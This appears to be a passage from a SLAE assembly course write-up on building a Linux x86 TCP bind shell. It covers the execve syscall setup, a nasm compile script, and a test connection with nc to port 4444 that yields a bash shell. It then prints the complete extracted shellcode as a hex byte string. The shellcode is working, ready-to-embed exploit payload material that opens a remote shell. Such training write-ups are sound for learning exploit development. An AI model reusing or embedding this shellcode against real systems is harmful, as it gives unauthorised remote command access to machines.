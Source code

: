         		EAX = 11 , syscall execve
        		toor@ubuntu:~/Desktop/slae/Assignments/1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 11
			#define __NR_execve              11

		      	EBX address location to /bin/bash
		      	ECX and EDX are set to zero as there is no arguments / environmental variables




**Practical**

A simple compile script is used to compile and link .asm file , once successfull ,we can execute it and connect to it

	toor@ubuntu:~/Desktop/slae/Assignments/1$ cat compile.sh
	#!/bin/bash
	echo 'Assembling with nasm'
	nasm -f elf32 -o $1.o $1.asm
	echo 'Success, Now Linking'
	ld -o $1 $1.o
	echo 'Go Ahead, may the force be with you'
	toor@ubuntu:~/Desktop/slae/Assignments/1$ 

	toor@ubuntu:~/Desktop/slae/Assignments/1$ ./compile.sh bind
	Assembling with nasm
	Success, Now Linking	
	Go Ahead, may the force be with you	
	toor@ubuntu:~/Desktop/slae/Assignments/1$ ./bind


	toor@ubuntu:~/Desktop/slae/Assignments/1$ nc -v 127.0.0.1 4444
	Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
	id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	echo $SHELL
	/bin/bash
                                   



**SHELLCODE**
  
  Using objdump to extract shellcode

  	toor@ubuntu:~/Desktop/slae/Assignments/1$ objdump -d ./bind|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x50\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xb3\x01\xcd\x80\x89\xc7\x52\x52\x66\x68\x1  1\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x57\x89\xe1\xb0\x66\xb3\x02\xcd\x80\x31\xf6\x56\x57\x89\xe1\xb0\x66\xb3\x04\xcd\x80\x31\xf6\x56\x56\x57\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
	toor@ubuntu:~/Desktop/slae/Assignments/1$


**Wrapper script to bind custom port**
